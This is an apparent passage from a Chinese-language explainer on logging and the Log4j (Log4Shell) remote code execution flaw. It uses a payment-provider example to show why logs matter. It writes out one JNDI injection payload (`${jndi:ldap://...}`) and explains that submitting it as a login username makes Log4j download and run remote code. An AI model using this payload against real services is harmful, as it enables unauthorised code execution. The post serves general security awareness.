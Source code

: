 ## 有關於 log 這件事

log 的中文翻譯叫做日誌，我相信許多人對這個名詞並不陌生，如果你有跟工程師合作過，他在解決問題時可能會說：「我去看一下 log」；或是如果你們跟合作廠商各執一詞，他說 A 你們說 B，這時候就會說：「不然看一下 log 吧，看看是誰的問題」

當你跟公司的 IT 合作解決電腦上的小問題時，他也會跟你說要去某個地方複製 log 給他，他才知道發生了什麼事情。

log 就像是一台 24 小時全年無休的監視攝影機一樣，需要紀錄起重要事物的狀況。

那為什麼需要有 log 呢？這問題就像是「為什麼要有監視攝影機？」一樣，答案很簡單，因為出事的時候才有證據。就像行車記錄器一樣，裝了以後若不幸發生車禍，就可以協助判斷肇責。

舉個例子，假設我是 A 公司，我們公司是做購物網站的，而通常金流這一塊並不會自己做，而是會找其他做金流的廠商合作，在後端去「串接」金流服務商提供的功能，講白話一點就是：「當使用者要付款時，我把使用者導過去金流廠商的頁面，付款完再導回來我們網站」，相信有在網路上購物的大家應該很熟悉這個流程。

在這個過程中，雙方都必須留下紀錄，確保未來發生問題時有證據可以輔助說明。

例如說有天 A 公司突然接到一堆客訴說沒辦法付款，這時 A 公司直接打電話去金流商，罵說你們這什麼爛服務，怎麼突然壞掉，而金流商此時提供了伺服器的 log，說：「沒有啊，我們這邊從今天早上八點開始就沒有你們導過來的紀錄了，應該是你們的問題吧？」，後來 A 公司檢查了自己這邊的服務，確實是因為今天早上的版本更新出了問題而導致，跟金流商一點關係都沒有。

這就是 log 的重要性，當出事的時候你才有證據可以盤查，才能盡可能還原當初的狀況。

做開發者的大家都知道 log 很重要，所以 log 基本上是必備的，以網站後端來說，他可能會在交易發生錯誤時留下一筆 log，也有可能在發生非預期錯誤時寫下 log，或是用 log 紀錄 request 中的一些欄位，比如說瀏覽器版本好了，給自己公司內部的數據分析系統來使用。

因此 log 是個十分常見的功能。這也是為什麼如果這個功能出事了，造成的後果會非常嚴重。

## log4j 是什麼？

在寫網站後端的程式碼時，會有不同的程式語言可以選擇，例如說 Python、JavaScript、PHP 或是 Java 等等，而這些程式語言都會有些專門做 log 的套件，簡單來說就是有人已經幫你把功能都寫好了，你只要用就好了。

而 Java 有一個很好用的 log 套件，就叫做 log4j。而這個套件是隸屬於 Apache 軟體基金會底下，因此全名又叫做 Apache Log4j。

Apache 底下有很多不同的軟體跟套件，例如說：

* Apache HTTP Server（大家最常看到的是這個）
* Apache Cassandra
* Apache Tomcat
* Apache Hadoop
* Apache Struts
* ...

所以 Apache Server 跟 Apache log4j 完全是不同的兩個東西，我知道你用 Apache Server，跟你有沒有用 log4j 是兩件事情。

這次出問題的套件就是 log4j，而出問題的原因跟我開頭講的一樣，有一個鮮為人知的功能有著安全性的漏洞，只要 log4j 在記錄 log 時記錄到某個特定格式的東西，就會去執行相對應的程式碼，就像開頭提的那個「關機」的板板一樣。

再講更詳細一點，其實並不是直接執行程式碼，那一段特定格式長得像這樣：

```
${jndi:ldap://cymetrics.io/test}
```

先不要管那些你看不懂的字，你可以很明顯看到裡面有一段東西很像網址，對，它就是網址，當 log4j 紀錄上面那一串字的時候，它發現這串字符合特定格式，就會去裡面的網址（`cymetrics.io/test`）下載程式碼然後執行，因此這是一個 RCE（Remote Code Execution，遠端程式碼執行）漏洞。

前面我有提過後端會記錄許多東西，假設今天有個後端服務是用 Java 寫的，而它用 log4j 記錄了使用者登入失敗時輸入的帳號，這時我只要用 `${jndi:ldap://cymetrics.io/test}` 這個帳號登入，就能夠觸發 log4j 的漏洞，讓它執行我準備好的程式碼。
